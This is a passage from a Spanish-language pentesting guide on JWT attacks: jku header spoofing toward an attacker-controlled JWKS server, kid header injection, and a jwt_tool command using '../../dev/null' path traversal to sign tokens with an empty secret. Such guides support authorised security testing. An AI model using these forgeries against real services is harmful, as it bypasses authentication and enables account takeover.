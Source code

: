 Deconstruido:
```
{ "typ": "JWT", "alg": "RS256", "JKU": "https://ticarpi.com /jwks.json " }.
{"login": "ticarpi"}.
[Firmado con nueva clave privada; Clave pública exportada]
```

Si el token utiliza un reclamo de encabezado `jku`, consulte la URL proporcionada. Esto debe apuntar a una URL que contenga el archivo `JWKS` que contiene la clave pública para verificar el token. Modifique el token para apuntar el valor `jku` a un servicio web para el que puede monitorear el tráfico.

Si obtiene una interacción HTTP, ahora sabe que el servidor está intentando cargar claves desde la URL que está proporcionando.

*Al usar `jwt_tool`, asegúrese de que el archivo `jwtconf.ini` se haya actualizado con la ubicación de sus `JWKS` personales*
```
python3 jwt_tool.py JWT_HERE -X s
```

### Inyección de "kid"

Este ataque afecta la forma en que la aplicación procesa el valor de ID de clave. Algunas bibliotecas utilizan llamadas al sistema (como búsquedas en el sistema de archivos) o consultas a la base de datos para extraer la clave especificada en el valor del encabezado `kid`. 

Al inyectar datos maliciosos en este header, un atacante puede obligar a la aplicación a realizar consultas SQL arbitrarias, comandos del sistema o incluso redirigir el objetivo del 'archivo clave' para que sea un archivo conocido en el sistema, con el fin de forzar un nuevo secreto que se utilizará para firmar y descifrar tokens `HMAC`.

### Clave de Revelación (kid)

Key ID (`kid`) es un encabezado opcional que tiene un tipo de cadena que se usa para indicar la clave específica presente en el sistema de archivos o una base de datos y luego usa su contenido para verificar la Firma. 

Si se utiliza `kid` en el encabezado, busque ese archivo o una variación en el directorio web. 

Por ejemplo, si:
```
"kid": "key/12345"
```

Busque en la raíz web:
```
"/key/12345"
"/key/12345.pem"
```

Además, `/dev/null` se denomina archivo de dispositivo nulo y siempre devolverá nada, por lo que funcionaría perfectamente en sistemas basados en Unix para devoler una salida nula con verificación válida ficticia.
```
python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""
```
